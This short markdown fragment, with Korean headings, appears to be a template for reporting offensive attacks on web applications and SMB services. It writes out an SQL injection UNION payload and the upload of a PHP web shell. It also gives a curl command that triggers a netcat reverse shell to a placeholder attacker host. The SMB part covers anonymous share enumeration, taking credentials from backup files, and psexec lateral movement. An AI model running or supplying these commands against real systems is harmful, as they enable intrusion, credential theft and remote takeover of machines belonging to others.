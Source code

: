 ### 🌐 웹 애플리케이션 공격시

```
=== WEB ATTACK: {URL} ===
Target: {URL}/vulnerable_page.php?id=1

DISCOVERY:
Parameter: id
Method: GET/POST
Initial Test: id=1'

EXPLOITATION:
Vulnerability: SQL Injection
Payload: ' UNION SELECT 1,2,3--
Database: MySQL
Tables Found: users, admin
Data Extracted:
- admin:password123
- user:secret456

FILES UPLOADED:
- shell.php → /uploads/shell.php
- Access: http://{IP}/uploads/shell.php

SHELL COMMAND:
nc -lvnp 4444
curl http://{IP}/uploads/shell.php?cmd=nc%20{ATTACKER_IP}%204444%20-e%20/bin/bash
```

### 🗂️ SMB 공격시

```
=== SMB ATTACK: {IP}:445 ===
ENUMERATION:
- smbclient -L //{IP} -N
- Shares Found: ADMIN$, C$, shared, backup

ACCESS:
Share: backup
Command: smbclient //{IP}/backup -N
Files Found:
- passwords.txt
- backup.zip
- config.xml

CREDENTIALS EXTRACTED:
- service_account:P@ssw0rd123
- admin:admin123

LATERAL MOVEMENT:
psexec.py service_account:P@ssw0rd123@{IP}
```
